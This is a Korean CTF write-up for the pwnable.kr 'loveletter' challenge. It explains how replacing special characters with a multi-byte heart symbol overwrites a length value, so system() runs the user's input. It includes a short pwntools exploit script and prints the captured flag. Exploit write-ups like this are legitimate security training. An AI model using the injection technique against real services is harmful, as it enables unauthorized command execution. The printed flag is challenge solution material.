






# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

파일 정보를 확인하자.

```sh
loveletter@pwnable:~$ checksec loveletter
[*] '/home/loveletter/loveletter'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

readme를 읽어보면 9034로 대기중이라고 한다.

```
loveletter@pwnable:~$ cat readme
connect to port 9034 (nc 0 9034). the 'loveletter' binary will be executed under loveletter_pwn privilege.
pwn it and get a shell and read the flag.
```

love letter에 prolog를 memcpy를 이용하여 붙혀넣는데 size값이 esp + 0x110에 위치하고, 이는 입력값 다음에 위치한다.



그렇다면 마지막에 '#&;`'\"|*?~<>^()[]{}$\\,'중 특수문자를 넣는다면, ♥(\xe2\x99\xa5)로 치환되고,



길이가 늘어나서 size값을 덮을 것이다.
('a'*254 + '#' => size = \xa5)



protect함수에서 특수문자를 ♥로 치환할 때, dword(4byte)형식이다.



이를 이용해서 size를 0으로 덮자.
('a'*253 + '#' => size = \x00)



입력값에 넣어보면 system("a~~~♥")가 되어서 다음과 같이 실행된다.

```sh
loveletter@pwnable:~$ ./loveletter
♥ My lover's name is : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa#
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echos in my mind...
sh: 1: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa♥: File name too long
```

FLAG를 획득하자.

```python
loveletter@pwnable:~$ mkdir -p /tmp/2honrr_loveletter
loveletter@pwnable:~$ cd /tmp/2honrr_loveletter
loveletter@pwnable:/tmp/2honrr_loveletter$ vi exploit.py

from pwn import *

payload = 'cat flag' + ' ' * (253 - len('cat flag')) + '#'
r       = remote("127.0.0.1", 9034)
r.sendline(payload)
print(r.recvline().decode().strip())

loveletter@pwnable:/tmp/2honrr_loveletter$ python exploit.py
```

# **FLAG**

**1_Am_3t3rn4l_L0veR**